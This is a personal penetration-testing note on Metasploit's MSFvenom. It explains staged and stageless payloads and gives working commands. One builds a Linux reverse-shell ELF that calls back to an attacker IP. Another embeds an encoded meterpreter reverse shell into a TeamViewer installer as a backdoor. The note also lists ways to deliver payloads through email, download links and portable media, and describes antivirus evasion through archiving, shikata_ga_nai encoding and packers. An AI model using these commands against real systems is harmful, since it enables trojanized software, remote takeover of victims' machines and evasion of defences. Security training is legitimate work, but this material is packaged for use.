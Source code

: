```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
MSFvenom is a tool within the [[Metasploit]] framework for creating, encrypting & encoding payloads. The delivery of these payloads is up to the attacker, this tool only aids to creates them. This is a really useful tool if we don't have direct access to the target system but we need a payload that we can deliver another way (eg. social engineering).

### Staged vs Stageless Payloads
A *staged* payload will only setup a 'small stage' that will then call back to the attack box to download the rest of the payload, and execute it. These take up space in memory so there is less space for the actual payload. These are useful when an exploit scenario has little space for a large payload to be uploaded but instead we could upload a stage that then downloads a larger payload into a more suitable place / into larger memory.

A *stageless* payload does not have a stage. The entire payload is sent over the network connection at once. This could benefit us in environments with little bandwidth or latency where a staged payload may not be stable enough. Sometimes these can be better for evasion too as they cause less network traffic, which could be helpful for a social engineering attack.

The description or the format of the name of the payload can identify if it is staged or stageless.
```bash
# Staged (indicated by the /'s ) we can see the different stages (eg. {0} create a shell, {1} then create a reverse tcp)
windows/meterpreter/reverse_tcp
linux/x86/shell/reverse_tcp

# Stageless
windows/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
```

![[Metasploit#Installation]]

## Documentation
**Cheatsheet:** 
**Website:** 
## Usage

### List all payloads
```bash
msfvenon -l payloads
# Payloads will commonly be named with their OS first eg. windows/dllinject/bind_tcp
```

### Building a stageless payload
```bash
msfvenom -p [payload_path] [options] -f [binary_format] > [file_name].[binary_format]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.112 LPORT=443 -f elf > createbackup.elf
```
We could then deliver this to our target system, common ways include:
- Email with file attached
- Download link on a website
- Combined with a metasploit exploit (but would likely need us to be on the internal network)
- Via portable media during an on-site attack
> We also need to make sure it gets executed once on the system.

![[Metasploit#Scanning a payload for possible detection]]

### Building a backdoor'ed executable
You can build a payload into an existing executable by using the `-k` flag. This will embed the payload into the executable and when run, will create a separate thread from the main application that is running our backdoor.
```bash
# This command embeds the meterpreter stageless payload into the provided TeamViewer_Setup.exe.
# It also encodes the payload using the shikata_ga_nai algo with 5 iterations.
msfvenom window/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -i 5 -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe
```
> The only issue with this is that if the application is launched via a CLI, a second window running the payload will open too.

## Evading AV detection
There are many protection mechanisms eg. [[Intrusion Detection]] and AVs. These systems are getting sophisticated and are capable of detecting most *default* payloads. Some mechanisms for evading them are still present as most AVs heavily rely on signature detection.
### Multi-layered archiving
Using a tool like [RAR utility](https://www.rarlab.com/download.htm) (WinRAR for linux) we can double archive a payload, making it much harder to get the actual signature of the contents.
### Using Encoding
Although this is often not enough these days to evade all AVs, it is still a critical step to be used with other techniques. Algorithms like `shikata_ga_nai` with multiple iterations can drastically improve the signature evasion capabilities of a payload.
### Packers
This is where the payload is compressed with the executable, to later be decompressed into its original form for execution. MSFVenom also allows you to change the file structure and encrypt the underlying process structure to further complicate the payload's signature.
- [UPX packer](https://upx.github.io/)
- [The Enigma Protector](https://enigmaprotector.com/)
- [MPRESS](https://web.archive.org/web/20240310213323/https://www.matcode.com/mpress.htm)
- Alternate EXE Packer
- ExeStealth
- Morphine
- MEW
- Themida
